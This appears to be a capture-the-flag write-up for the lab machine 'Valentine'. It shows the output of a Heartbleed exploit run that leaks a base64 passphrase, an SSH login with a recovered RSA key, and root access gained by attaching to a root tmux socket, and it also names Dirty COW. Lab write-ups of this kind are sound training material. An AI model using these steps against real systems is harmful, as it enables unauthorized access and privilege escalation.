

# Valentine

### Machine Info


#### Nmap
Nmap Port Scan:


Nmap Vulnerability Scan:


##### HTTP (Port 80)

Index page:


###### Gobuster
Gobuster to find out hidden page/directory:


`/decode` and `/encode` pages:


`/dev`:


From the `/dev/` directory, we can get 2 files:

`notes.txt`


`hype_key`


`hype_key` looks like `hex` encoded text. Let's decode it by using just online decoder:

The decoded message returns `PROTECTED RSA PRIVATE KEY` and I tried `john` but wasn't able to crack.


##### SSL HeartBleed

The Heartbleed Bug is a vulnerability in the OpenSSL cryptographic software library. This bug allows for reading memory of systems so anyone on the Internet can read and steal encrypted data and can eavesdrop on communication and just impersonate services and users.

HeartBleed Bug:


I found the exploit from exploit-db:
Exploit Code: []()https://www.exploit-db.com/exploits/32745

Execute and analyse result:
```
❯ python 32745.py 10.10.10.79                                            
Connecting...                                                            
Sending Client Hello...                                                  
Waiting for Server Hello...                                              
 ... received message: type = 22, ver = 0302, length = 66                
 ... received message: type = 22, ver = 0302, length = 885               
 ... received message: type = 22, ver = 0302, length = 331               
 ... received message: type = 22, ver = 0302, length = 4                 
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384             
Received heartbeat response:
------------------------ SIP ----------------------
00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D B2  mV0aGVoeXBlCg==.
0160: 45 A1 FB BE 88 E4 2C 42 42 7C D3 5A 83 90 F9 16  E.....,BB|.Z....
------------------------ SIP ----------------------
```
We can see some encoded text `$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==` from result. It looks like `base64` encoded.

Decoding `$text`:

This could be password or passphrase for rsa_key.

Let's just `SSH` to user `hype`:


#### Privilege Escalation
First I just checked `sudo` but nothing so I just used `lse.sh` enumeration script. From the process result, I found interesting one:


And check what /.devs/dev_sess is:


I am in the group `hype` and group member can read and write which means we can jump on to the root process.

##### Exploit

```
hype@Valentine:~$ tmux -S /.devs/dev_sess
```
And we have a root shell:


And you can get `root.txt` :)


##### Another Exploit method

The linux version of host `valentine` is `3.2.0-23-generic` which is vulnerable to `dirty cow` vulnerability.

Dirty Cow Exploit: []()https://www.exploit-db.com/exploits/40839
```
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
```
